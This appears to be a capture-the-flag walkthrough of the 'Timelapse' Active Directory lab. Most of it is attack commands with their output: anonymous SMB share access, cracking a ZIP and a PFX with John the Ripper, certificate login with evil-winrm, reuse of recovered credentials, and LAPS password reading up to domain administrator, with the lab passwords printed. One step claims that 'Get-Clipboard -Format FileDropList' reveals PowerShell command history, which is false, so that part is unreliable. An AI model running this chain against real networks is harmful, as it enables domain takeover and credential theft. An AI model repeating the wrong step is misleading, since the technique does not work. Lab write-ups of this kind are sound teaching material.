 # Timelapse - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed standard Active Directory services:
```
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf            .NET Message Framing
```

### Domain Information
From the scan results, I identified domain information:
```
Domain: timelapse.htb
Computer name: dc01.timelapse.htb
```

The SSL certificate on port 5986 confirmed WinRM over HTTPS was enabled.

### SMB Enumeration
I enumerated SMB shares using anonymous access:
```bash
smbclient -L \\\\10.129.190.14 -N
```

This revealed several standard shares plus an additional non-default share named "Shares":
```
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Shares          Disk      
SYSVOL          Disk      Logon server share 
```

## Gaining Initial Access

### SMB Share Content Analysis
I connected to the "Shares" share to examine its contents:
```bash
smbclient \\\\10.129.190.14\\Shares -N
```

After browsing through the directories, I discovered a password-protected ZIP file:
```
winrm_backup.zip
```

I downloaded this file for further analysis:
```bash
get winrm_backup.zip
```

### ZIP File Password Cracking
I used zip2john and John the Ripper to crack the ZIP file password:
```bash
zip2john winrm_backup.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

This revealed the password:
- **ZIP Password**: supremelegacy

### Certificate Analysis
After extracting the ZIP file using the cracked password, I found a PFX certificate file:
```
legacyy_dev_auth.pfx
```

This file type contains both the private key and certificate, commonly used for authentication. Since it was in a folder named "WinRM Backup," it likely contained credentials for WinRM access.

I needed to crack the PFX file password:
```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
john pfx.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

This revealed the password:
- **PFX Password**: thuglegacy

### Extracting Certificate and Key
I extracted the certificate and private key from the PFX file:
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out file.key -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out file.crt
```

## Lateral Movement

### WinRM Authentication Using Certificate
I used Evil-WinRM to establish a connection using the extracted certificate:
```bash
evil-winrm -i 10.129.190.14 -k file.key -c file.crt -S -r timelapse
```

This provided access as the user `legacyy`.

### Privilege Information Discovery
While exploring the system as legacyy, I checked for stored credentials or sensitive information. Using PowerShell's clipboard history, I discovered credentials:
```powershell
Get-Clipboard -Format FileDropList
```

This revealed a PowerShell command history with credentials:
```powershell
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername dc01.timelapse.htb -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
```

This disclosed credentials for a service account:
- **Username**: svc_deploy
- **Password**: E3R$Q62^12p7PLlC%KWaxuaV

## Privilege Escalation

### Lateral Movement to Service Account
I established a new connection using the service account credentials:
```bash
evil-winrm -i 10.129.190.14 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

### LAPS Password Discovery
After gaining access as svc_deploy, I discovered this account had rights to query Local Administrator Password Solution (LAPS) passwords. I downloaded and imported a LAPS PowerShell module:
```powershell
Import-Module ./LAPS.ps1
Get-LAPSComputers
```

This revealed the LAPS-managed local administrator password:
```
dc01.timelapse.htb }e8nD!uV9.S7o50w4Gclw+/u 11/17/2024 12:45:21
```

### Domain Admin Access
With the local administrator password for the domain controller, I established a session as Administrator:
```bash
evil-winrm -i 10.129.190.14 -u Administrator -p '}e8nD!uV9.S7o50w4Gclw+/u' -S
```

This provided full domain administrator access, successfully completing the challenge.

I verified access by checking administrative privileges:
```powershell
whoami /all
dir C:\Users\Administrator\Desktop
```